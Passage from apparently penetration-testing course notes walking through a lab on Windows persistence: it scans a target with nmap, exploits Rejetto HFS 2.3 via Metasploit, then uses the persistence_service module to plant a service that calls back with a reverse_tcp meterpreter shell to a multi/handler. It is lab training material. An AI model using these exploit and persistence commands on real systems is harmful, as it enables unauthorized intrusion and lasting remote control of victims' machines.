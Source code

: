 ### 6.1. Maintaining Access: Persistence Service ⚗️

We will learn about a way of maintaining persistent access to the target machine using the Metasploit module. Your task is to fingerprint the application using the tools available on the Kali machine and exploit the application using the appropriate Metasploit module. 

Use the `exploit/windows/local/persistence_service` local exploit module to maintain access.

**Objective:** Exploit the application and maintain access using the Metasploit module.

**Note**: Elevated privileges are required in order to establish persistence on a Windows system.

**Gain access to the system**

```shell
ping -c 1 demo.ine.local
nmap -sV <target_IP>
searchsploit hfs 2.3
service postgresql start && msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOSTS <target_IP>
set LHOST <local_IP>
exploit
background
```

**Maintain Access**

```shell
search persistence_service
use exploit/windows/local/persistence_service
show options
set SESSION 1
exploit
# By default persistence, the local exploit module uses the following payload: windows/meterpreter/reverse_tcp

# Start another msfconsole and run multi handler to re-gain access.
use exploit/multi/handler
set LHOST <Kali_IP>
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
exploit

# Switch back to the active meterpreter session and reboot the machine.
session -i 1
reboot
# Once the machine reboots we would expect a new meterpreter session without re-exploitation. This happened because we have added a malicious executable for maintaining access.
```

### 6.2. Persistence via RDP
